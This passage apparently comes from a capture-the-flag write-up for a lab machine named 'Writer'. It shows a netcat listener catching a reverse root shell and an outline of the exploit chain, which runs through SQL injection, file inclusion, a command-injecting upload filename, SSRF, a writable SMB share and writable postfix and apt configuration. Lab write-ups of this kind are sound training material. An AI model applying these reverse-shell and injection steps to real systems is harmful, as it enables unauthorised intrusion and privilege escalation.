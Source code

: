 ```console
└─╼$ sudo rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 42130
/usr/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 80 http, 139 smb -> SQLi & LFI -> enum usernames & apache sites(80 public, 8080 private) & 80 site's db credential -> foothold:

1. file upload with cmd injection filename -> ssrf to visit uploaded file to trigger cmd
2. smb directory writable -> change 8080's code logic by injecting system command -> ssrf to visit 8080 django service -> execute injected command

www-data shell -> django service: dbshell to get hash value -> crack to get kyle's password -> kyle shell -> enum filter group file -> misconfig postfix with writable john-priv script which can be trigger by sending mails -> john shell -> enum management group file -> writable apt.conf.d -> apt-get update exploit -> root shell
